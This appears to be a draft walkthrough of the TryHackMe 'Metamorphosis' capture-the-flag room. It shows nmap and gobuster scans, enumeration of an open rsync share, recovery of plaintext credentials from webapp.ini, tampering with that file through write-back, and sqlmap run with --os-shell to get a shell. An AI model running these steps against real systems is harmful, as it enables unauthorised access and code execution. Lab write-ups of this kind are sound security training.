 ```yaml
---
title: "Tryhackme Metamorphosis"
date: 2021-08-16T15:55:27+05:30
draft: true
toc: false
image: ""
tags: []
categories: []
---
```

## Overview


##Inital Recon

First we start with the basic nmap scan 

```bash
root@kali:~/tryhackme/metamorphosis#nmap -sC -sV  10.10.97.133
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-12 11:32 IST
Nmap scan report for 10.10.97.133 (10.10.97.133)
Host is up (0.16s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:0f:0a:18:50:78:07:10:f2:32:d1:60:30:40:d4:be (RSA)
|   256 5c:00:37:df:b2:ba:4c:f2:3c:46:6e:a3:e9:44:90:37 (ECDSA)
|_  256 fe:bf:53:f1:d0:5a:7c:30:db:ac:c8:3c:79:64:47:c8 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp open  rsync       (protocol version 31)
Service Info: Host: INCOGNITO; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 13s, deviation: 0s, median: 13s
|_nbstat: NetBIOS name: INCOGNITO, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: incognito
|   NetBIOS computer name: INCOGNITO\x00
|   Domain name: \x00
|   FQDN: incognito
|_  System time: 2021-08-12T06:03:04+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-12T06:03:04
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.22 seconds

```

##Gobuster

```bash

root@kali:~/tryhackme/metamorphosis/conf#gobuster dir -u 10.10.97.133 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.97.133
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
2021/08/12 11:04:29 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 10818]
/admin                (Status: 301) [Size: 312] [--> http://10.10.97.133/admin/]
/inde.html            (Status: 200) [Size: 10918]                               
Progress: 56672 / 882244 (6.42%)               

```

##Visting Webpage

```bash
http://10.10.97.133/admin

```

<img style="border:2px solid black" src="/images/My_New_Hugo_Site.png" align="left"><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>


Viewing `source code` 

<img style="border:2px solid black" src="/images/My_New_Hugo_Site.png" align="left"><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>

##Rsync Enumeration

We have port 873 running which is `Rsync` you can read more about this here[hacktricks.xyz/pentesting/873-pentesting-rsync](https://book.hacktricks.xyz/pentesting/873-pentesting-rsync)

```bash
rsync -rdt rsync://10.10.38.244:873

we get | Conf            All Confs |

```
Listing content of `Conf`

```bash

rsync -rdt rsync://10.10.38.244:873/Conf
drwxrwxrwx          4,096 2021/04/11 01:33:08 .
-rw-r--r--          4,620 2021/04/10 01:31:22 access.conf
-rw-r--r--          1,341 2021/04/10 01:26:12 bluezone.ini
-rw-r--r--          2,969 2021/04/10 01:32:24 debconf.conf
-rw-r--r--            332 2021/04/10 01:31:38 ldap.conf
-rw-r--r--         94,404 2021/04/10 01:51:57 lvm.conf
-rw-r--r--          9,005 2021/04/10 01:28:40 mysql.ini
-rw-r--r--         70,207 2021/04/10 01:26:56 php.ini
-rw-r--r--            320 2021/04/10 01:33:16 ports.conf
-rw-r--r--            589 2021/04/10 01:31:07 resolv.conf
-rw-r--r--             29 2021/04/10 01:32:56 screen-cleanup.conf
-rw-r--r--          9,542 2021/04/10 01:30:59 smb.conf
-rw-rw-r--             72 2021/04/11 01:33:06 webapp.ini

```
Downloading `Conf files` into local machine

```bash
rsync -av rsync://10.10.38.244:873/Conf ./conf

```

Reading all the files we got webapp.ini file 

```bash

cat webapp.ini 
[Web_App]
env = prod
user = tom
password = theCat

[Details]
Local = No
````

The env variable is set to `prod`  .... change this to `dev` (for development)and uploading back the new webapp.ini file to server.

```bash

rsync -av webapp.ini rsync://10.10.101.93:873/Conf/webapp.ini  

```

Accessing the admin page again  `http://10.10.101.93/admin/`


<img style="border:2px solid black" src="/images/My_New_Hugo_Site.png" align="left"><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>
 
Use `brupsuite` and saving the request as `req.txt` file

##SQLmap

use sqlmap `batch mode` so that it doesn't ask for inputs and `os-shell` to get the shell.
```bash
sqlmap -r req.txt --level 3 --risk 3 --batch --os-shell

```


we get permission denied when try to run these command ..
and it is confirm the tcp dump was running using linpeas..
